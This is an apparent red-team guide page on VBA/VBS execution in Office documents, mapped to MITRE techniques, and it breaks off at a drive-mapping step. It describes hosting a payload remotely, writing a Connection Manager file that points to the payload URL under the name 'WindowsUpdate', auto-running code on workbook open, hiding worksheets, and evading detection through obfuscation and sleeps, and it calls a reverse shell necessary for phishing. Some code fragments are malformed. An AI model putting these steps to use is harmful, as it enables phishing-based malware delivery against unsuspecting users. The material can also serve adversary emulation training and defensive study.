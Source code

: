 
# VBA/VBS Execution ([`Office` TTP](TTP/T1137_Office_Application_Startup/T1137.md), [`Command and Scripting Interpreter - Visual Basic` TTP](TTP/T1059_Command_and_Scripting_Interpreter/005_Visual_Basic/T1059.005.md))
### Example Attacks

* <details><summary>Example 1 (Click to expand)</summary><p>
	1. Generate your payload
	1. Host your payload remotely
	1. Copy the URL where the payload is stored
	1. Include the text for the file to be included in execution.

			[Connection Manager]
			CMSFile=settings.txt
			ServiceName=WindowsUpdate
			TunnelFile=settings.txt
			[Settings]
			UpdateUrl=<INSERT_PAYLOAD_URL>
	1. Define the target filepath and write 
		* TIP: For the filepath with the user's name, define a variable with the user's username collected from the user environment

				user = Environ("Username")
		* Set fs = CreateObject("Scripting.FileSystemObject")

				Scripting.FileSystemObject.CreateTextFile.WriteLine("C:Users\", user, "\AppData\Roaming\Microsoft\Proof\settings.txt")

### Code Guide

1. Optional: Develop Reverse Shell Execution Method ([Reverse Shells Guide](Testaments_and_Books/Redvelations/Windows/004-1_Windows_Reverse_Shells.md))
	* Necessary for phishing
1. Write code and support the premise
	* <details><summary>Common premise-specific functions (Click to expand)</summary><p>
		* VBA Code
			* Execute on open
				* Define the script within **ThisWorkbook** as `Sub Workbook_Open()`
			* Word
				* Hide/Unhide Content

						.
			* Excel
				* Hide/Unhide Worksheet
					* Set the Visible property to FALSE:

							Worksheets("Sheet1").visible = False
					* Or set the Visible property to xlSheetHidden:

							Worksheets("Sheet1").visible = xlSheetHidden
1. <details><summary>Implement code that improves functionality (Click to expand)</summary><p>
	* Sleep Functions
		* Sometimes code is executing in a race condition between user activity and the system processing
		* Note this will require function-specific obfuscation (i.e., rewriting the function, as described in the obfuscation guide, to avoid detection)
1. Continue to VBA Obfuscation ([VBA Obfuscation Guide](Testaments_and_Books/Redvelations/Windows/003-1_VBA-VBS_Obfuscation.md))
* <details><summary>Map a webdav folder to a drive letter (Click to expand)</summary><p>
	1. Right-click on "Class Modules" and click "Insert" --> "Class Module".  Name it "DriveMapper" before pasting in this code:
